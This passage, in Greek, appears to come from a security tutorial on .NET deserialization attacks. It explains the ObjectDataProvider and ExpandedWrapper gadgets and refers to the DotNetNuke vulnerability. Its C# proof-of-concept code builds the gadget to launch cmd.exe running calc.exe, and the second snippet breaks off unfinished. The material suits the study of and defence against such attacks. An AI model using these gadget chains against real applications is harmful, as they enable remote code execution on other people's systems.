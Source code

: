 Σημειώστε ότι αυτό δεν είναι ο πλήρης κώδικας της συνάρτησης `QueryWorker`, αλλά δείχνει το ενδιαφέρον μέρος της: Ο κώδικας **καλεί `this.InvokeMethodOnInstance(out ex);`** αυτή είναι η γραμμή όπου **καλείται η μέθοδος**.

Αν θέλετε να ελέγξετε ότι απλά ορίζοντας το _**MethodName**_\*\* θα εκτελείται\*\*, μπορείτε να εκτελέσετε αυτόν τον κώδικα:
```java
using System.Windows.Data;
using System.Diagnostics;

namespace ODPCustomSerialExample
{
class Program
{
static void Main(string[] args)
{
ObjectDataProvider myODP = new ObjectDataProvider();
myODP.ObjectType = typeof(Process);
myODP.MethodParameters.Add("cmd.exe");
myODP.MethodParameters.Add("/c calc.exe");
myODP.MethodName = "Start";
}
}
}
```
Σημειώστε ότι πρέπει να προσθέσετε ως αναφορά _C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll_ προκειμένου να φορτώσετε `System.Windows.Data`

## ExpandedWrapper

Χρησιμοποιώντας την προηγούμενη εκμετάλλευση, θα υπάρχουν περιπτώσεις όπου το **αντικείμενο** θα **αποσυμπιεστεί ως** μια _**ObjectDataProvider**_ παρουσία (για παράδειγμα στην ευπάθεια DotNetNuke, χρησιμοποιώντας XmlSerializer, το αντικείμενο αποσυμπιέστηκε χρησιμοποιώντας `GetType`). Στη συνέχεια, θα έχουμε **καμία γνώση του τύπου του αντικειμένου που είναι περιτυλιγμένο** στην _ObjectDataProvider_ παρουσία (`Process` για παράδειγμα). Μπορείτε να βρείτε περισσότερες [πληροφορίες σχετικά με την ευπάθεια DotNetNuke εδώ](https://translate.google.com/translate?hl=en\&sl=auto\&tl=en\&u=https%3A%2F%2Fpaper.seebug.org%2F365%2F\&sandbox=1).

Αυτή η κλάση επιτρέπει να **καθορίσετε τους τύπους αντικειμένων των αντικειμένων που είναι ενσωματωμένα** σε μια δεδομένη παρουσία. Έτσι, αυτή η κλάση μπορεί να χρησιμοποιηθεί για να ενσωματώσει ένα αντικείμενο πηγής (_ObjectDataProvider_) σε έναν νέο τύπο αντικειμένου και να παρέχει τις ιδιότητες που χρειαζόμαστε (_ObjectDataProvider.MethodName_ και _ObjectDataProvider.MethodParameters_).\
Αυτό είναι πολύ χρήσιμο για περιπτώσεις όπως αυτή που παρουσιάστηκε προηγουμένως, επειδή θα είμαστε σε θέση να **τυλίξουμε \_ObjectDataProvider**_\*\* μέσα σε μια \*\*_**ExpandedWrapper** \_ παρουσία και **όταν αποσυμπιεστεί** αυτή η κλάση θα **δημιουργήσει** το _**OjectDataProvider**_ αντικείμενο που θα **εκτελέσει** τη **λειτουργία** που υποδεικνύεται στο _**MethodName**_.

Μπορείτε να ελέγξετε αυτόν τον περιτυλιγμένο με τον ακόλουθο κώδικα:
```java
using System.Windows.Data;
using System.Diagnostics;
using System.Data.Services.Internal;

namespace ODPCustomSerialExample
{
class Program
{
static void Main(string[] args)
{
ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
myExpWrap.ProjectedProperty0.ObjectInstance = new Process();
myExpWrap.ProjectedProperty0.MethodParameters.Add("cmd.exe");
myExpWrap.ProjectedProperty0.MethodParameters.Add("/c calc.exe");
```